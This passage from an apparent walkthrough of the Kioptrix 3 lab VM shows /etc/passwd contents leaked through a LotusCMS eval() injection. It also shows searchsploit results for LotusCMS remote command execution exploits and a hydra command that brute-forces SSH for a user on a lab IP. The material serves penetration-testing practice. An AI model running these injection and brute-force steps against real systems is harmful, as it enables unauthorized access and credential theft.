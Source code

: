     sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin  
    loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash  
    dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash  
      
    Parse error: syntax error, unexpected '.', expecting T_STRING or T_VARIABLE or '$' in /home/www/kioptrix3.com/core/lib/router.php(26) : eval()'d code on line 1  
    

_More details: https://www.htbridge.com/advisory/HTB22883_** **  
  

#### **LotusCMS**

#### ** **

You might've figured out already, there's a CMS serving data for the website
called LotusCMS, it also happens to have very serious vulnerabilities:  
  

    
    
    root@kali:~# searchsploit lotuscms  
    ----------------------------------------------------------------------------------------- ----------------------------------  
     Exploit Title                                                                           |  Path  
                                                                                             | (/usr/share/exploitdb/platforms)  
    ----------------------------------------------------------------------------------------- ----------------------------------  
    LotusCMS 3.0 - eval() Remote Command Execution (Metasploit)"                             | /php/remote/18565.rb  
    LotusCMS 3.0.3 - Multiple Vulnerabilities"                                               | /php/webapps/16982.txt  
    ----------------------------------------------------------------------------------------- ----------------------------------  
    

  
Getting a shell out of this vulnerability in action is here.  
  

## 3\. Getting a shell!

#### Method 1: Bruteforcing SSH for loneferret

We already know the user exists via a blog post mentioned earlier.

  
IMPORTANT:_ _When running hydra, make sure you include _-t 4_ parameter,
otherwise the service could get overloaded and not all passwords will be
tested properly.  
  

    
    
    root@kali:~# hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4  
    Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
      